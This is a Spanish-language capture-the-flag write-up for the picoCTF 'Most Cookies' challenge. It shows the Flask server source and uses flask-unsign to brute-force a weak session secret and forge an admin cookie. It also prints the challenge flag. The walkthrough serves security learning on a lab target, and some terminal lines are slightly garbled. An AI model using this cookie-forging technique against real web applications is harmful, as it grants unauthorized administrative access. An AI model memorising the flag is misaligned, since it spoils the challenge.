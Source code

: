 ## Objetivo
Alright, enough of using my own encryption. Flask session cookies should be plenty secure!
[http://mercury.picoctf.net:6259/](http://mercury.picoctf.net:6259/)
## Solución
- ##### Descargaremos el archivo "server.py".
```
┌──(kali㉿kali)-[~/picoCTF]
└─$ wget https://mercury.picoctf.net/static/cae5577e6b8f86e17d7884723204f61e/server.py
--2024-10-02 00:55:30--  https://mercury.picoctf.net/static/cae5577e6b8f86e17d7884723204f61e/server.py
Resolving mercury.picoctf.net (mercury.picoctf.net)... 18.189.209.142
Connecting to mercury.picoctf.net (mercury.picoctf.net)|18.189.209.142|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2021 (2.0K) [application/octet-stream]
Saving to: ‘server.py’

server.py                    100%[============================================>]   1.97K  --.-KB/s    in 0s      

2024-10-02 00:55:31 (81.3 MB/s) - ‘server.py’ saved [2021/2021]
```

- ##### Observando el código del archivo, podemos observar que hay una lista de cookies y que la firma de la cookie se hace de forma aleatoria. También se observa que la estructura de la cookie para obtener la bandera tiene que tener "admin" para obtenerla.
``` python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```

- ##### Mediante el "pipx", instalaremos el "flask-unsign", con el que realizaremos lo siguiente en la terminal.
```
┌──(kali㉿kali)-[~/picoCTF]
└─$ flask-unsign --decode --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZvzbNg.OxwWYnzHHB2v_KVqDbwVLVUpIKA"   
{'very_auth': 'snickerdoodle'}
                                                                                                                  
┌──(kali㉿kali)-[~/picoCTF]
└─$ flask-unsign --decode --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZvzbNg.OxwWYnzHHB2v_KVqDbwVLVUpIKA" --.txt
{'very_auth': 'snickerdoodle'}
                                                                                                                  
┌──(kali㉿kali)-[~/picoCTF]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZvzbNg.OxwWYnzHHB2v_KVqDbwVLVUpIKA" --.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'gingersnap'
                                                                                                                  
┌──(kali㉿kali)-[~/picoCTF]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'gingersnap'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zvzcqw.zM6bMebiWfVbgehkNBDotZdsDU0
```

- ##### Una vez firmada la nueva cookie que hicimos con el "flask-unsign", la editaremos en el sitio web, y recargando la página, obtenemos la bandera.
```
Flag: picoCTF{pwn_4ll_th3_cook1E5_5f016958}
```
## Notas Adicionales
- Las cookies son pequeños fragmentos de texto que los sitios web que visitas envían al navegador. Permiten que los sitios web recuerden información sobre tu visita, lo que puede hacer que sea más fácil volver a visitar los sitios y hacer que estos te resulten más útiles.
## Referencias
- [PicoCTF](https://play.picoctf.org)